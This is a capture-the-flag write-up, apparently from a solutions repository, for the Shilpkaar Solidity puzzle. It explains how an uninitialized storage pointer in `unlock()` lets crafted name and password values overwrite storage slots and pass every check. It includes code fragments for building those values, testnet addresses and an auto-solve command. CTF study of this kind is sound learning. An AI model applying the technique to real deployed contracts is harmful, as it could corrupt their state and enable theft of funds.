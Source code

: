 # Shilpkaar

With difference, one of the most annoying puzzles of the set. From Wikipidia, [Shilpkar](https://en.wikipedia.org/wiki/Shilpkar) are _an artisan community mainly associated with Intaglio techniques and painting_. This is indeed a hint on what must be done in order to solve the puzzle. In particular, to solve this puzzle, we will need to carefully craft a set of data that allows us to pass the multiple complex checks inside the challenge contract.

But first of all we need to find the key to the first lock, which is hidden in plain sight.

## Unlock

Looking at the functions we can see that the `roulette()` function is first protected by the requirement of the called to be in the `shilpkaar` mapping. Looking at the contract it seems the only possible way of achieving this is by calling the `unlock()` function first and passing all the checks.

However the unlock function first check seems to lock us out of calling it at all! The first check needs the state variables `gate1Unlocked` and `gate2Unlocked` to be set to `true`. These 2 variables are unitialized (meaning they are both false) and they are not set anywhere.

Typically when presented with a puzzle like this, there is either an array underflow to be exploited, or a more subtle one in the shape of complex data type declared locally without specifying its data location. What does this mean? Back in Solidity 0.4 you could declare a local complex variable (like a struct) without specifying its data location. If you didn't specify it then it would, by default, be pointing to a storage location. In particular to the slot 0 of the contract storage. This is OK as far as you don't write to it and just use it to later on point it to the right location. However, if you would write to it before pointing it to a valid location...it would directly overwrite the contents of the contract storage starting from the slot 0.

This is exactly what is happening in the `unlock` function:

```
  function unlock(bytes32 _name, bytes32 _password) external {
        regInfo regRecord;
        regRecord.name = _name;
        regRecord.password = _password;
```

`regRecord` is declared but not pointed to a valid location, and then it's members are set to `_name` and `_password`. Because `regRecord.name` and `regRecord.password` are `bytes32` variables, they are actually pointing to the slot 0 and slot 1 of the contract storage (each slot is 32 bytes long).

This gives us control over the first two slots of the contract storage.

The second part of this section of the puzzle is to realize that there is more than 1 variable mapped to the slot 0, and that the same follows for the slot 1. In particular:

```
    // Slot 0
    address private garbageAddress;  //         160 bits
    bool private gate1Unlocked;      //         8 bits
    uint16 private gateKey1;         //         16 bits
    uint72 public rouletteStartTime; //         72 bits
                                     // TOTAL   256 bits = 32 bytes = 1 slot

    // Slot 1
    uint64 private gateKey2;         //         64 bits
    uint64 private gateKey3;         //         64 bits
    bool private gate2Unlocked;      //         8 bits
    uint64 private gateKey4;         //         64 bits
    uint56 private gateKey5;         //         56 bits
                                     // TOTAL   256 bits = 32 bytes = 1 slot
```

With this information we can craft a set of data that will allow us to pass the multiple checks inside the challenge contract.

## First two checks

The values for `gate1Unlocked` and `gate2Unlocked` are set to `true` to pass the first check. Then the second check requires us to fill in the `garbageAddress` variable with a value that meets the folowing expectation:

```
        require(
            uint256(garbageAddress) > 2**153 + garbageNonce &&
                uint256(garbageAddress) <= 2**160 - ((garbageDivisor - 1) - garbageNonce),
            "Problem With garbageAddress"
        );
```

Looking at the condition we can set `garbageAddress` to be:

```
        garbageAddress = address(uint160(2**153 + garbageNonce + 1));
```

and pass both tests. Because `garbageNonce` is public we can read it and use it in the formula.

## The prime conundrum and the master key

This part was the most difficult to craft along the `masterKey` value. The next check looks like this:

```
        require(
            gateKey3 < (uint256(uint64(-1)) * 49) / 100 &&
                gateKey4 < (uint256(uint64(-1)) * 51) / 100 &&
                probablyPrime(gateKey3) &&
                probablyPrime(gateKey4),
            "Problem with gateKeys"
        );
```

It basically says that `gateKey3` must be less than 49% of the maximum value of `uint64` and `gateKey4` must be less than 51% of the maximum value of `uint64`. Oh, and both must be possibly primes!

Because I will need this keys to add up to a certain value for `masterKey` to be valid, I crafted a value to be added and substracted to `gateKey3` and `gateKey4`. This way by adding up `gateKey3` and `gateKey4` the extra value addition and substraction cancel out, but allows us to bring the values of `gateKey3` and `gateKey4` to the desired range:

```
uint64 gateKeysCompensation = uint64(2**63 - ((uint256(type(uint64).max) * 49) / 100));
```

Now we can define the `gateKey3` and `gateKey4` values as:

```
        uint64 gateKey3 = 2**63 - gateKeysCompensation;
        uint64 gateKey4 = 2**63 + gateKeysCompensation;
```

This makes both values to be in range, but they are still not prime. In order to find the prime number that is closest to the desired value, I used this [website](https://www.numberempire.com/primenumbers.php) that calculates the closes prime number (next or previous) to the one given. Passing the values for `gateKey3` and `gatekey4` we can gate their respectives previous prime numbers and adjust the formula to hit the target:

```
        uint64 gateKey3 = 2**63 - 44 - gateKeysCompensation;
        uint64 gateKey4 = 2**63 - 92 + gateKeysCompensation;
```

The `masterKey` is calculated like this:

```
        uint256 masterKey = uint256(gateKey1) +
            uint256(gateKey2) +
            uint256(gateKey3) +
            uint256(gateKey4) +
            uint256(gateKey5);
```

And we need `masterKey` to meet the following check:

```
        require(
            masterKey > (2**65 + 2**56) + masterNonce &&
                masterKey < (2**65 + 2**56 + 2**16) - ((masterDivisor - 1) - masterNonce),
            "Problem with masterkey"
        );
```

If we add up all the values composing the `masterKey` we can see that we are short by `masterNonce` and an extra 139. This is great because we have one free variable available which is `gateKey1`. We can use this variable to add the missing value to `masterKey`. It is a `uint16` but it is enough to hold the needed offset:

```
        uint16 gateKey1 = 139 + uint16(masterNonce);
```

## Roulette Start Time

The last value we need to set is the `rouletteStartTime`. This will the time used in the `roulette` function check:

```
     require(block.timestamp >= timeToRoll[msg.sender], "Problem with timeToRoll");
```

The easiest is to set it to 0, so we can call `roulette` at any time.

## Final Hack

With all these values now we can craft the values for `name` and `password`:

```
        bytes32 name = bytes32(abi.encodePacked(rouletteStartTime, gateKey1, gate1Unlocked, garbageAddress));
        bytes32 password = bytes32(abi.encodePacked(gateKey5, gateKey4, gate2Unlocked, gateKey3, gateKey2));
```

We can call `unlock` with this values and then `roulette` to win the challenge~

## Solution

Solved by deployer: 0xc892cfd3e75Cf428BDD25576e9a42D515697B2C7
Solution contract address: 0x16c0dBDD7eEe418C7342a2A81737e6Bb9b3BE4F8

Solution contract: [ShilpkaarSolution](./contracts/solutions/ShilpkaarSolution.sol)
Solution Script: [solveShilpkaar.ts](./tasks/solveShilpkaar.ts)

You will need to check the challenge contract internal transactions to see the calls from the solution contract

## Auto-solve

To solve this challenge you can use the following command:

```
$ yarn solve-shilpkaar:rinkeby --shilpkaar-address 0x8b6Df584c5b82F9647a63a66cfD45006ccB777FF
```

The deployed attack contract ShilpkaarSolution address will be the one registered as being pwned the Shilpkaar contract.
